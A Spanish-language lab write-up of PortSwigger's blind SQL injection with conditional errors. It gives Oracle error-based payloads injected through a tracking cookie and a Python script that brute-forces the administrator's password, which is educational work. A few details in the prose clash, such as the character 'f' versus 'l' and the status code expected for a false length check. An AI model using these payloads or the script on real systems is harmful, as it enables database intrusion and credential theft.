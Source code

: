 
---

# Guía práctica: SQLi Blind — respuestas condicionales

---

## Laboratorio PortSwigger

Para ilustrar con ejemplos reales usaremos el laboratorio gratuito de [PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors):

`https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors`

Todas las pruebas que se muestran a continuación se realizaron contra la URL provista por ese laboratorio.

---

## Confirmación de la vulnerabilidad

**Resumen:** en este laboratorio hay una vulnerabilidad de **blind SQL injection**. La aplicación utiliza una cookie de tracking para analítica y construye una consulta SQL con el valor de la cookie enviada. Los resultados de la consulta **no se devuelven** y la aplicación **no cambia** su respuesta según si la consulta devuelve filas. Si la consulta provoca un error, la aplicación devuelve un **mensaje de error personalizado**. La base de datos contiene una tabla `users` con columnas `username` y `password`. Nuestro objetivo es explotar la inyección ciega para descubrir la contraseña del usuario `administrator`.

**Paso práctico (comprobación rápida):**

1. Intercepta una petición con Burp Suite (o abre DevTools).
    
2. Localiza la cabecera `Cookie:` y busca la cookie de tracking usada por la aplicación (el laboratorio indica que hay una cookie de tracking para analítica).
    
3. Haz una prueba sencilla: modifica temporalmente el **valor** de esa cookie añadiendo una comilla simple (`'`) al final y reenvía la petición.    
    `<cookie_name>=valorOriginal'`
    
4. Observa la respuesta:
    
    - Si aparece el **mensaje de error personalizado**, eso confirma que el valor de la cookie se está incluyendo en una consulta SQL y la entrada es inyectable.
        
    - Si **no** aparece un error, **no descartes** la inyección: el laboratorio especifica que la aplicación no cambia su respuesta cuando la consulta devuelve filas (es _blind_). En ese escenario hay que proceder con técnicas ciegas (time‑based o provocar errores condicionales) para inferir verdadero/falso y extraer la contraseña.
        

> Nota: la ausencia de un error explícito no descarta SQLi. En _blind SQLi_ la aplicación suele no devolver el resultado; en su lugar distinguimos TRUE/FALSE por **tiempos de respuesta** (time‑based) o por provocar un **error condicional** que solo ocurra cuando una condición SQL se cumple. El hecho de que la aplicación devuelva un mensaje personalizado ante errores es una pista útil: podemos aprovechar tanto payloads que provoquen errores controlados como payloads que introduzcan retrasos para diferenciar condiciones.

**Evidencia visual:**

![BupSuite](./Imágenes/burp_11.png)

![BupSuite](./Imágenes/burp_12.png)

![BupSuite](./Imágenes/burp_13.png)

![BupSuite](./Imágenes/burp_14.png)

Al darnos error en una query propia de [MySQL](MySQL.md), debemos probar para otro tipo de base de datos. Al probar con una query de [Oracle](Oracle.md) vemos que obtenemos el código de estado `200` en lugar del `500` que obtenemos cuando la query no es correcta. Entonces bajo este mismo principio booleano, podemos extraer la información de la base de datos de forma similar a como lo hacíamos en [SQLi Blind conditional responses](SQLi%20Blind%20conditional%20responses.md).

![BupSuite](./Imágenes/burp_15.png)


---

## Explotación

Algo que también vemos es que podemos hacer doble comilla ( `''`) y la query se cierra devolviendo un código de estado `200`. Entonces podemos concatenar query en Oracle con  `||<query>||`. Empezamos confirmando la siguiente secuencia lógica

```SQL
'||(select 'a' from dual)||'
```

![BupSuite](./Imágenes/burp_16.png)

Entonces podemos generar una condición `select case when (<condición>) then <error> else '' end` de tal modo que cuando la condición sea válida como en el primer ejemplo que es `when(1=1)` entraremos en el `then` y como su valor es erróneo, pues dividimos 1 entre 0 y lo convertimos a strings, se producirá el error con el código de estado `500`.

```SQL
'||(select case when(1=1) then to_char(1/0) else '' end from dual)||'
```

![BupSuite](./Imágenes/burp_17.png)

Sin embargo, cuando la condición es falsa como `when(2=1)` entramos en el `else` que es una cadena vacía (que no ejecute nada), y debería devolvernos un código de estado `200` como es el caso.

```SQL
'||(select case when(2=1) then to_char(1/0) else '' end from dual)||'
```

![BupSuite](./Imágenes/burp_18.png)

Si apuntamos a la tabla `users` y a su columna `username` donde sabemos que hay un valor para username que es `administrator`, obtenemos la misma lógica, según en el apartado de la condición en la que entremos obtendremos un código u otro.

```SQL
'||(select case when(2=1) then '' else to_char(1/0) end from users where username='administrator')||'
```

![BupSuite](./Imágenes/burp_19.png)

Ahora la condición que aplicamos es `when(lenght(password)=20`, es decir, sí la longitud del valor de contraseña es igual a 20 entonces entraremos en el `then to_char(1/0)`  y obtenemos un código `500`, si cambiamos la longitud veremos que entramos en el `else` y obtenemos un `500` como código de estado. Como vimos en  [SQLi Blind conditional responses](SQLi%20Blind%20conditional%20responses.md), el principio es el mismo. Tenemos una forma de poder extraer información tomando como referencia de si las querys utilizadas aplican o no,  al código de estado para este caso de *inyecciones a ciegas basadas en errores condicionales*.

```SQL
'||(select case when(length(password)=20) then to_char(1/0) else '' end from users where username='administrator')||'
```


Hacemos una comprobación de lógica booleana. Como el valor del primer carácter `username,1,1` para el usuario `administrator` es `'a'` y esto es correcto entraremos en el `then` y obtenemos un código de estado `500`. Con esta lógica podemos apuntar al valor de `password` del usuario `administrator` y tratar de exfiltrar su información.

```SQL
'||(select case when substr(username,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
```


Si manualmente buscamos el primer carácter para la contraseña de administrator, vemos que (solo para mí caso) es `f`. Con la confirmación de que esta query funciona, podemos crear un script que nos automatice este proceso.

```SQL
'||(select case when substr(password,1,1)='l' then to_char(1/0) else '' end from users where username='administrator')||'
```

![BupSuite](./Imágenes/burp_22.png)

---

## Script

```python
#!/usr/bin/env python3

from pwn import *
import requests, sys, signal, string
import time

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    p1.failure("Ataque de fuerza bruta detenido")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


p1 = log.progress("SQLi")

characters = string.ascii_lowercase + string.digits


def makeSQLi():

    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range (1, 21):
        for character in characters:
            cookies = {
                    'TrackingId': f"SB3RVC2QjsIChXzV'||(select case when substr(password,{position},1)='{character}' then to_char(1/0) else '' end from users where username='administrator')||'",
                    'session': "yhJwbXELgF68qoqh6ofgeLVMmNO3SjFE"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0ac6007f045a62fb805e08d800740038.web-security-academy.net/", cookies=cookies)

            if r.status_code == 500:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLi()
```

**Nota:** importante apuntar al código de estado erróneo (`500` en este caso) ya que muchas lógicas de consultas devuelven un estado `200` y puede confundir al script.

Resultado:

```bash
[→] Password: lyk113ggndoukb19b5ce
```
